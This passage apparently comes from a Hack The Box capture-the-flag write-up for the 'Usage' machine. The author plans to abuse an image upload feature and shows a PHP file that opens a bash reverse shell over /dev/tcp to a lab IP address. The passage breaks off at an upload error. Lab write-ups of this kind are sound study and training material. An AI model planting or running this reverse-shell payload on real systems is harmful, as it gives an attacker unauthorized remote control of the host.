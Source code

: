 ### Reverse shell
Exploring the interface a bit, we can find the ability to upload an image for our user:
![User image](./images/user-image.png)

My first guess was to upload an arbitrary file in here. So I created a php reverse shell:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ cat exploit.php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.91/8081 0>&1'");
?>

┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ 
```

And tried to upload it. But I got the following error message: